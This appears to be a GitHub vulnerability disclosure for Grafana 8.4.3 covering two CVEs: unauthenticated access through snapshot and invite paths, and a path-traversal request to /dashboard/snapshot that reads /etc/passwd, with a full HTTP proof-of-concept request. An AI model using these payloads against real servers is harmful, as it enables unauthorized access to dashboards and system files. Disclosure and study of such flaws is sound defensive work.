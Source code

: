 # grafana
grafana 8.4.3 (b7d2911ca)

# First point - CVE-2022-32276

## Unauthenticated and authenticated users can send a false request for snapshot query using random key parameters, having access to the system dashboard area by going through the login page.
•	Rated version: 8.4.3 (b7d2911ca)
•	
Access the system the user is directed to the system home page, as image 1
![image](https://user-images.githubusercontent.com/28454566/171639021-9b0da9c7-837d-4f86-be73-a123eae5de9b.png)

Image 1: login form 


It has been verified that an unauthenticated user knowing the vulnerable directories can enter random ID value which allows unauthenticated access to the hospitalized system pages.
Parameter used:
/dashboard/snapshot/*?orgId=0
/invite/:
![image](https://user-images.githubusercontent.com/28454566/171639130-8e408037-3e65-4b15-a679-88e2f1987aea.png)

Image 2: Unauthenticated access to snapshot list

![image](https://user-images.githubusercontent.com/28454566/171639178-52a2f5d5-f57c-49b9-9258-2f60a3b6403a.png)

Image 3: Unauthenticated access to the dashboard menu


![image](https://user-images.githubusercontent.com/28454566/171639388-3b17937c-e1f5-448f-b5cb-f26722af95f9.png)

Image 4: Unauthenticated access to the filter menu


# Second point - CVE-2022-32275

##
•	Rated version: 8.4.3 (b7d2911ca)
•	Injection of parameters in http request.
## It has been verified that by injecting the following request into the login form the system returns internal page.

![image](https://user-images.githubusercontent.com/28454566/171640044-cf2029dc-8598-44f9-87ed-c6c09a152212.png)

Image 5: login form 



Viewing the request in burpsuite
![image](https://user-images.githubusercontent.com/28454566/171640173-5795e0b0-0f31-4cac-8ae5-5d413b0637d1.png)

Image 6: Intercepting the request by burpsuite


Change the request by adding /{{constructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 , encode : /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1



![image](https://user-images.githubusercontent.com/28454566/171640263-15364ef7-8741-40e2-98dd-dee80b44b28d.png)

Image 7: Request changed before submission to server


![image](https://user-images.githubusercontent.com/28454566/171640314-914a29f3-2f98-4ff2-9dc7-eaf7896e1d56.png)


Image 8: Data returned from the tampered request



### POC 2
Send the request to the Burpsuite Repeater  function and change the request header to:

```
GET /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1
Host: <grafana_host>:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-BR,en;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close-up
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```



![image](https://user-images.githubusercontent.com/28454566/171640452-7d292f9f-c35e-4067-b199-2ae9dea9ecbd.png)

Image 9: Changing the request in the repeater function.


![image](https://user-images.githubusercontent.com/28454566/171640507-360ce5d1-4486-4f29-adc4-a047e5655bfc.png)


Image 10: Unauthenticated access 



## References:
<li>https://cwe.mitre.org/data/definitions/1345.html</li>
<li>https://cwe.mitre.org/data/definitions/284.html</li>
<li>https://cwe.mitre.org/data/definitions/552.html</li>
<li>https://cwe.mitre.org/data/definitions/548.html</li>
<li>https://cwe.mitre.org/data/definitions/706.html</li>
<li>https://owasp.org/www-pdf-archive/OWASP_SCP_v1.3_pt-BR.pdf</li>
</ol>


